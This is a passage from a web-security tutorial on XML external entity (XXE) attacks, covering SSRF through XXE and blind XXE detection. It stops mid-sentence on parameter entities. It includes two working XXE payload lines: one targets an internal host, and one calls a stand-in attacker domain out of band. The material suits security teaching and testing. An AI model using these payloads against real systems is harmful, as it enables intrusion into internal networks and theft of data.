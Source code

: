 To exploit an XXE vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf), you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### Blind XXE vulnerabilities <a href="#blind-xxe-vulnerabilities" id="blind-xxe-vulnerabilities"></a>

Many instances of XXE vulnerabilities are blind. This means that the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

Blind XXE vulnerabilities can still be detected and exploited, but more advanced techniques are required. You can sometimes use out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data. And you can sometimes trigger XML parsing errors that lead to disclosure of sensitive data within error messages.

{% hint style="info" %}
**Read more**

* [Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)
{% endhint %}

### Detecting blind XXE using out-of-band (OAST) techniques <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
